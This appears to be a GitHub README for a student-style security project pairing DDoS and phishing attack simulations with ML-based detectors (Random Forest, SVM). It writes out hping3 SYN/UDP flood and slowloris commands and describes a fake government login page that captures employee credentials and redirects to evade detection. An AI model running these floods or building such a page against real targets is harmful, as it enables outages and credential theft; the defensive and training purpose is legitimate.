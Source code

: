 # Cyber Attack Simulation  
A practical demonstration of DDoS and phishing attack methodologies for educational purposes.  

**⚠️ Disclaimer**:  
These tools are **strictly for authorized security testing, academic research, or defensive training**. Unauthorized use is illegal and unethical.  

---

## DDoS Attack Simulation  
A toolkit demonstrating SYN/UDP flood and HTTP slowloris attacks using `hping3` and `slowhttptest`.  

### Components:  
**Frontend:**:  
- Fake login page mimicking a government transport portal (login.html).
- Redirects to a legitimate site post-credential capture to evade detection.  

**Attack Execution**:  
1. **SYN Flood**:  
   ```bash  
   sudo hping3 -S -p 8000 --flood <TARGET_IP>  # Replace <TARGET_IP>
2. **UDP Flood**:
   ```bash  
   sudo hping3 --udp --flood -p 8000 <TARGET_IP>
3. **HTTP Slowloris**:
    ```bash  
   slowhttptest -c 5000 -H -i 5 -r 500 -t GET -u http://<TARGET_IP>:8000 -x 24 -p 10
 ### Validation:
- Network Traffic: Use Wireshark with filter port 8000 to observe attack patterns.
- Server Load: Run top on the target to monitor CPU/memory spikes.
- Logs: Check Python server logs for connection errors or timeouts.
 ### Usage:
 - Install tools (Kali Linux).
- Start target server (Ubuntu VM)
- Execute attack commands (replace <TARGET_IP> with the server's IP).



## Phishing Attack Simulation
A Flask-based mock phishing page to demonstrate credential harvesting.

### Components:  
**Frontend:**:  
- Fake login page mimicking a government transport portal (login.html). 
- Redirects to a legitimate site post-credential capture to evade detection. 


**Attack Logic**:  
- Collects 8-digit employee IDs and access codes via POST requests.
- Validates input format (strict 8-digit ID check) to mimic real phishing.
- Stores stolen credentials in captured_creds.txt.
 ### Usage:
 - Install dependencies;
- Launch the phishing server;
- Access http://localhost:8888/login to trigger the phishing page.

# Cyber Threat Defense

A full-stack system to detect and defend against phishing websites and DDoS network attacks using machine learning techniques.

This repository includes:
DDOS Defense Model:
- Frontend: Flask web application
  - A Flask web application for DDoS detection
  - logging of auto-defense activities
- Machine Learning:
  - ML models comprising Random Forest and SVM for DDoS detection
  - Random Forest and SVM models for DDoS detection
  - Evaluation metrics and confusion matrix for model performance
- Testcase Generation:
  - Test cases for DDoS detection
  - A dataset of DDoS attack and normal traffic data
- Usage:
  - Instructions for running the Flask app
  - Instructions for using the trained models


Phishing Defense Model:
- Frontend: Flask web application
  - A Flask web application for Phishing detection
- Machine Learning:
  - ML models comprising Random Forest and SVM for Phishing detection
  - Random Forest and SVM models for Phishing detection
  - Evaluation metrics and confusion matrix for model performance
- Example Safe URL:
  - Example of a safe URL with detailed analysis
- Usage:
  - Instructions for running the Flask app
  - Instructions for using the trained models
---

## Project Layout

```
Defense/
├── ddos_defense/
│   ├── app/                # Flask web app for DDoS detection
│   ├── data/               # Raw and preprocessed DDoS datasets
│   ├── model/              # Trained models (SVM & RF)
│   ├── result/             # Confusion matrices & metrics
│   ├── defense_log/        # Auto-defense activity logs
│   └── testing/            # Test samples
├── phishing_defense/
│   ├── app/                # Flask web app for Phishing detection
│   ├── data/               # Phishing URL datasets
│   ├── model/              # Trained models (SVM & RF)
│   ├── result/             # Evaluation results
│   └── testing/            # Phishing test cases
```

Testing
- DDOS Defense Testing:
  - Use testing_ddos.py to create the test cases for DDoS detection. 
  The test cases are generated based on the dataset in the data folder.
- Phishing Defense Testing:
  - Testcase is given in the testing folder (exmaple.md)

- Result
  - Result of the model are in the result folder it can be used to compare the performance of the SVM and Random Forest model.

- Retrain Model 
  - If you wish to retrain the model, you can use the training_ddos.py file but you will need to download the 
  dataset (CIC-DDoS2019) and place the dataset in data.py.
  Files including the preprocess python file and the training python file are included in the project folder.
